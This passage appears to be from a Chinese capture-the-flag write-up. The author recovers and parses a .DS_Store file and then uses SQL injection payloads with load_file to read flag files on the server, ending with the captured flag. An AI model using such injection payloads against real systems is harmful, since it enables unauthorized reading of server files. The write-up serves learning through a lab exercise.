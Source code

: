 我们通过通过瑞士军刀可以 恢复成 文件形式 并且导出

然后通过Python-dsstore-master

来实现解析读取文件

```cs
py3 .\main.py .\samples\download.dat
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/212d3427f7768f8839b4c8382e3bede7.png" alt="" style="max-height:253px; box-sizing:content-box;" />


我们来解析读取这个flag

```cs
0',content=(select load_file('/tmp/html/flag_8946e1ff1ee3e40f.php')),/*
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8ca68da059a6d265eceb7969c7acc060.png" alt="" style="max-height:207px; box-sizing:content-box;" />


但是这个文件是错误的 flag为错误

可能修改了 所以我们回去 /var进行读取

```cs
0',content=(select load_file('/var/www/html/flag_8946e1ff1ee3e40f.php')),/*
```

```cs
flag{5737c889-1e5b-47a6-b14d-87df5dd59e01}
```

知识点 过多了。。。。。

虽然都很基础 但是有的时候 真没想到 可以以后再做一次